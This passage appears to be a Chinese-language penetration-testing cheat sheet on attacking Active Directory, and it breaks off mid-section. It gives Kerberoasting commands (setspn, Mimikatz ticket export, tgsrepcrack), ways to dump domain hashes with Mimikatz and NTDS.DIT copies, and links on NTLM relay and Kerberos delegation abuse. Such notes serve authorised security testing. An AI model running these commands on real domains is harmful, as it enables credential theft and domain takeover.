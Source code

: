 ##### 域服务账号破解 
与上面SPN扫描类似的原理
https://github.com/nidem/kerberoast
获取所有用作SPN的帐户
```
setspn -T PENTEST.com -Q */*
```
从Mimikatz的RAM中提取获得的门票
```
kerberos::list /export
```
用rgsrepcrack破解
```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
##### 凭证盗窃 
从搜集的密码里面找管理员的密码 

##### NTLM relay
 * [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
 * [privexchange](https://github.com/dirkjanm/privexchange/)
 * [Exchange2domain](https://github.com/ridter/exchange2domain)

##### Kerberos委派
 * [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
 * [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
 * [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
 * [用打印服务获取域控](https://adsecurity.org/?p=4056)
 * [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
 * [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
 * [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

##### 地址解析协议 
实在搞不定再搞ARP 
​    
#### 获取AD哈希 
* 使用VSS卷影副本 
* Ntdsutil中获取NTDS.DIT​​文件 
* PowerShell中提取NTDS.DIT -->[Invoke-NinaCopy ](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)
* 使用Mimikatz提取 

```
mimikatz lsadump::lsa /inject exit 
```
* 使用PowerShell Mimikatz
* 使用Mimikatz的DCSync 远程转储Active Directory凭证
提取 KRBTGT用户帐户的密码数据：
